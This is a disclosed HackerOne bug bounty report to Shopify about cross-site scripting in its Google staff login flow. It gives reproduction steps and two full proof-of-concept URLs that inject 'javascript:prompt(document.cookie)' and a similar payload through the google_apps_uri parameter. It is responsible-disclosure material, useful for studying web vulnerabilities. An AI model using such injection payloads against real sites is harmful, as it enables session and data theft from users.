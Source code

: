 # XSS while logging using Google

## Report Details
- **Report ID**: 691611
- **URL**: https://hackerone.com/reports/691611
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-09-10T10:02:40.557Z
- **Disclosed**: 2019-09-11T17:22:32.229Z

## Reporter
- **Username**: ashketchum
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hello Security Team,
I have found xss when we enable login services as, 
Allow staff to use external services to log in to Shopify and we enable Google Apps for login
we get the " Log in with Google " option enable 

{F579219}

### Steps to Reproduce:

Step1: Go to https://YOURSHOP.myshopify.com/admin/settings/account
Step2: Login Services: Staff can use Google Apps to log in -->> Enable Google Apps for login
Step3: Now staff can log in using Google
Step4:  Log out from your account
Step5: Now go to following Url and try to log in using Google 

#### NOTE: I have made changes in the URL at google_apps_uri

### POC URL 1: 
https://app.shopify.com/services/login/identity?destination_uuid=79b5c315-b5ac-4b19-bd33-13554433fa31&google_apps_uri=javascript:prompt(document.domain)&return_to=https%3A%2F%2Fapp.shopify.com%2Fservices%2Flogin%2Fidentity_callback%3Fshop_name%3D123ashketchum%26state%3D6a_2K0iBEBMG3sv07qFMrtzfrBFY4gZ9JsN0EJAW2Xck07xlkghl0tmZwGIvYEZ1KZw2mG4d4Omhl_h5oB_7t4dcXoS37UUOMG6f9sOr7BCKyR23PWbLpVlh4A0lMXmNuxOEUeEA55eapNpVZqT6AyfnJkQhn4K89-I5O6TVqcamtHaXWRH7b1EI6U8LvQFddrBPYniYGpggAwsFLvb5UeTvRw-fbvRditQ20YWYTK8%253D&ui_locales=en&upgradeable=true&ux=shop

### POC URL 2:
https://app.shopify.com/services/login/identity?destination_uuid=79b5c315-b5ac-4b19-bd33-13554433fa31&google_apps_uri=javascript:prompt(document.cookie)&return_to=https%3A%2F%2Fapp.shopify.com%2Fservices%2Flogin%2Fidentity_callback%3Fshop_name%3D123ashketchum%26state%3D6a_2K0iBEBMG3sv07qFMrtzfrBFY4gZ9JsN0EJAW2Xck07xlkghl0tmZwGIvYEZ1KZw2mG4d4Omhl_h5oB_7t4dcXoS37UUOMG6f9sOr7BCKyR23PWbLpVlh4A0lMXmNuxOEUeEA55eapNpVZqT6AyfnJkQhn4K89-I5O6TVqcamtHaXWRH7b1EI6U8LvQFddrBPYniYGpggAwsFLvb5UeTvRw-fbvRditQ20YWYTK8%253D&ui_locales=en&upgradeable=true&ux=shop

### XSS will be triggered!!

{F579220}

### I have attached POC Video, Please take a look!!

Regards,
@ashketchum

## Impact

The attacker can steal data from whoever who try to login using Google!!

## Attachments
- google_login.png
- xss.png
- POC.mkv
